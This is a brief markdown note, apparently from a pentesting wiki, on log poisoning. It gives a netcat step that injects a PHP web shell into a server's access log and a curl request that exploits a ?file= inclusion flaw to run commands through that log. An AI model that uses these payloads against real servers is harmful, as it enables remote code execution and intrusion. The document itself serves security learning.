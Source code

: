 # Log Poisoning

## Introduction

Log Poisoning is a type of [[File-Inclusion-And-Directory-Traversal]] related attack that seeks to inject the log file of a server with malicious request that include code to then can then be used in an LFI payload. The infamous [[log4J]] exploit is the famous recent example of Log Poisoning that leads to Remote Code Execution. Simple example being:
```bash
nc -nv $poor_web_server_ip 80
(UNKNOWN) [$poor_web_server_ip] 80 (http) open
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```

## File Inclusion Code Execution

Vulnerable parameter `?file=` and  `&cmd`

```bash
curl "http://$poor_web_server/menu.php?file=c:\xampp\apache\logs\access.log&cmd=dir"
```